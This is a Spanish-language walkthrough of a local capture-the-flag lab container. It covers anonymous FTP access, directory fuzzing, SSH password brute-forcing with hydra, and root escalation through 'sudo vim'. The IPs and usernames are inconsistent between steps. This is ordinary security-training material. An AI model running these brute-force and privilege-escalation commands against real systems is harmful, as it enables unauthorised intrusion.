 
Desplegamos el contenedor:

```Bash
bash auto_deploy.sh trust.tar
```

![[Pasted image 20250131110723.png]]

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![[Pasted image 20250131110822.png]]

Nos conectamos con **FTP**:

```
ftp 172.17.0.2
```

![[Pasted image 20250131110950.png]]

```
anonymous
```

![[Pasted image 20250131111006.png]]

```
'blank'
```

![[Pasted image 20250131111028.png]]

```
ls
```

![[Pasted image 20250131111046.png]]

```
get chat-gonza.txt pendientes.txt
```

![[Pasted image 20250131111122.png]]

```
cat chat-gonza.txt
```

![[Pasted image 20250131111157.png]]

```
cat pendientes.txt
```

![[Pasted image 20250131111325.png]]

Encontramos 3 nombres así que vamos a explorar un poco más.

Hacemos **Fuzzing**:

```
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

![[Pasted image 20250131112740.png]]

Nos metemos en la web:

![[Pasted image 20250131111923.png]]

![[Pasted image 20250131111936.png]]

Fuerza Bruta con **Hydra**:

```Bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2
```

![[Pasted image 20250131112040.png]]

Nos conectamos con **SSH**:

```Bash
ssh russoski@172.18.0.2
```

![[Pasted image 20250131112159.png]]

Elevamos privilegios:

```
sudo -l
```

![[Pasted image 20250131112216.png]]

```
sudo vim -c ':!/bin/bash'
```

![[Pasted image 20250131112620.png]]

```
whoami
```

![[Pasted image 20250131112638.png]]